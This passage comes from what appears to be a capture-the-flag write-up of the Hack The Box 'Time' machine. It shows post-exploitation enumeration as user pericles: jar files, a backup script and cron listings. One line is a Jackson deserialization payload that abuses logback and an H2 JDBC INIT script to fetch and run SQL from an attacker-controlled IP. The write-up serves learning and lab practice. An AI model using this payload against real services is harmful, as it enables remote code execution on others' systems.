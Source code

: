 ```text
/opt/json_project/classpath/logback-core-1.3.0-alpha5.jar
/opt/json_project/classpath/jackson-core-2.9.8.jar
/opt/json_project/classpath/jackson-annotations-2.9.8.jar
```

I did a search for files that the group `pericles` had access to.

```text
pericles@time:/dev/shm$ ls -la
total 4
drwxrwxrwt  2 root     root       60 Mar 16 21:30 .
drwxr-xr-x 18 root     root     3980 Mar 16 14:16 ..
-rw-------  1 pericles pericles  161 Mar 16 21:30 payloadah34hL
pericles@time:/dev/shm$ cat payloadah34hL 
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.159:8082/test.sql'"}]
```

The exploit code that I had used to access the machine was saved as a file in `/dev/shm` apparently.

```text
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

I also found the file `/usr/bin/timer_backup.sh`. It looked like it was probably a cron script that made backups of the website data. I decided it would be a good place to check to see if there was anything interesting in old backups

```bash
pericles@time:/etc$ cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
pericles@time:/etc$ ls -la cron
ls: cannot access 'cron': No such file or directory
pericles@time:/etc$ cd cron.d
pericles@time:/etc/cron.d$ ls -la
total 24
drwxr-xr-x   2 root root 4096 Sep 21 03:22 .
drwxr-xr-x 102 root root 4096 Feb 10 15:20 ..
-rw-r--r--   1 root root  102 Feb 13  2020 .placeholder
-rw-r--r--   1 root root  201 Feb 14  2020 e2scrub_all
-rw-r--r--   1 root root  712 Mar 27  2020 php
-rw-r--r--   1 root root  191 Apr 23  2020 popularity-contest
```